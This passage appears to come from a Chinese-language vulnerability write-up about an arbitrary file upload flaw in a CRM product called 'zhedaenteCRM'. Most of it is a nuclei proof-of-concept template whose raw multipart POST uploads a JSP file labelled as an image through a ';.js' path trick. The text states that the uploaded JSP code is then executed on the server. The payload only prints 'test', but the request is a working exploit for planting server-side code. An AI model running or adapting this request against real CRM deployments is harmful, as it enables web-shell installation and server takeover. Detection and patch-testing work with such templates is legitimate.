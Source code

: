 <br/> 访问文件地址，可以看到jsp代码被解析了。

### nuclei验证

nuclei-poc：

```
id: zhedaenteCRM

info:
  name: zhedaenteCRM
  author: xxx
  severity: info
  description: description
  reference:
    - https://
  tags: tags

requests:
  - raw:
      - |-
        POST /entsoft/CustomerAction.entphone;.js?method=loadFile HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
        Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
        Accept-Encoding: gzip, deflate
        Connection: close
        Cookie: JSESSIONID=100BEE1C6DE1ED7BEF0C58564557C266; lang=zh-cn
        Upgrade-Insecure-Requests: 1
        If-Modified-Since: Wed, 10 Jun 2020 03:47:54 GMT
        If-None-Match: W/"30144-1591760874831"
        Content-Type: multipart/form-data; boundary=----WebKitFormBoundarye8FPHsIAq9JN8j2A
        Content-Length: 199

        ------WebKitFormBoundarye8FPHsIAq9JN8j2A
        Content-Disposition: form-data; name="file";filename="as.jsp"
        Content-Type: image/jpeg

        &lt;%out.print("test");%&gt;
        ------WebKitFormBoundarye8FPHsIAq9JN8j2A--

    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - 'filepath":'
      - type: status
        status:
          - 200

```

